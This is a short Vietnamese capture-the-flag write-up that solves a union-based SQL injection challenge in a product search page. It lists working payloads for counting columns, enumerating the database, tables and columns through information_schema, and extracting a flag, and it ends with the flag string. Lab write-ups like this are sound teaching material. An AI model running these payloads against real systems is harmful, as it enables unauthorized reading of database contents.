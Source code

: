 # Solve **SQL Injection Level 2**

Đối với bài này, lỗi SQL Injection sẽ xuất hiện ở phần Search Product.
Khi bạn nhập các số 1-14 thì trang web sẽ lần lượt trả về các hình ảnh sản phẩm tương ứng với giá trị ID mà bạn nhập.

Tiến hành dò cột để thực hiện lệnh UNION

(Điều kiện để dùng câu lệnh UNION:

- Số lượng cột của các lệnh SELECT phải bằng nhau
- Cùng kiểu dữ liệu.

)
Sử dụng `1 UNION SELECT NULL, NULL` thì dò được số column của câu select là 2.

Tiếp theo, dò tên bảng và tên cột. (Cái này bọn mình sẽ giới thiệu với các bạn sau)

Dò tên của Database:

```sql
1 UNION SELECT NULL, DATABASE()
```

Dò tên bảng:

```sql
1 UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'sql_level2'
```

Dò tên cột:

```sql
1 UNION SELECT NULL, column_name from information_schema.columns where table_schema='sql_level2' and table_name='flags'
```

(Có hint tên bảng là: flags và tên cột là **flag** 😉😉)

Dùng payload: `1 UNION SELECT flag, flag from flags` sẽ lấy được flag.

![Alt text](image.png)

`FLAG: VKU{FLAG_SQL_I_LEVEL_2_YOU 4RA G006}`
